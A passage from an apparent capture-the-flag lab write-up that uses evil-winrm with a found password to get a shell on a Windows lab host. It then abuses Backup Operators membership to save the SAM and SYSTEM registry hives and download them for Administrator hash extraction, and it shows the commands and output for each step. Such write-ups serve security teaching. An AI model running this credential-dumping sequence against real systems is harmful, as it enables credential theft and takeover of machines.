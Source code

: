 Using `evil-winrm`, we obtain a shell and can read the user flag at `C:\Users\j.smith\Desktop\user.txt`.

```console
$ evil-winrm -i k2server.k2.thm -u 'j.smith' -p 'NewPassword123@'
```

### Dumping the Hashes

Checking the group memberships for the `j.smith` user in either **BloodHound** or using the shell, we see that the user is a member of the `Backup Operators` group.

```console
*Evil-WinRM* PS C:\Users\j.smith\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                          Attributes
========================================== ================ ============================================ ===============================================================
...
BUILTIN\Backup Operators                   Alias            S-1-5-32-551                                 Mandatory group, Enabled by default, Enabled group
...
```

We can use this to dump the registries and extract the credentials.

To obtain the local **Administrator** hash, we only need the `SAM` and `SYSTEM` registries.

```
*Evil-WinRM* PS C:\Users\j.smith\Documents> reg save HKLM\SAM sam.reg
The operation completed successfully.

*Evil-WinRM* PS C:\Users\j.smith\Documents> reg save HKLM\SYSTEM system.reg
The operation completed successfully.
```

We can use `evil-winrm` to download them.

```
*Evil-WinRM* PS C:\Users\j.smith\Documents> download C:\Users\j.smith\Documents\sam.reg sam.reg

Info: Downloading C:\Users\j.smith\Documents\sam.reg to sam.reg

Info: Download successful!
*Evil-WinRM* PS C:\Users\j.smith\Documents> download C:\Users\j.smith\Documents\system.reg system.reg

Info: Downloading C:\Users\j.smith\Documents\system.reg to system.reg

Info: Download successful!
```
